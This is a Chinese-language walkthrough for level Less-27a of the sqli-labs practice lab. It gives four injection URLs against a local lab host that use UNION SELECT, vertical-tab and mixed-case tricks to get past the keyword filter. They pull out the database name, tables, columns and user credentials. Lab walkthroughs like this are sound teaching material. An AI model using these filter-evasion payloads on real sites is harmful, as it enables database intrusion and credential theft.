

# Less - 27a

---

# 通关教程

---

## 1、判断闭合

---

通过观察源码可以看到该关卡的闭合方式为"，如下

​​

---

## 2、查看当前的数据库名

---

```bash
http://192.168.225.132/sqli-labs/Less-27a/?id=0"%0BunIon%0BSelEcT%0B1,2,database();%00
```

​​

## 3、查看数据表名

---

```bash
http://192.168.225.132/sqli-labs/Less-27a/?id=0"%0BunIon%0BSelEcT%0B1,2,(sELect (group_concat(table_name)) from (information_schema.tables) where (table_schema='security'));%00
```

​​

---

## 4、查看users表下的所有字段

---

```bash
http://192.168.225.132/sqli-labs/Less-27a/?id=0"%0BunIon%0BSelEcT%0B1,2,(sELect (group_concat(column_name)) from (information_schema.columns) where (table_name='users'));%00
```

​​

---

## 5、查看username,password字段的值

---

```bash
http://192.168.225.132/sqli-labs/Less-27a/?id=0"%0BunIon%0BSelEcT%0B1,2,(sELect (group_concat(username,password)) from (security.users));%00
```

​​
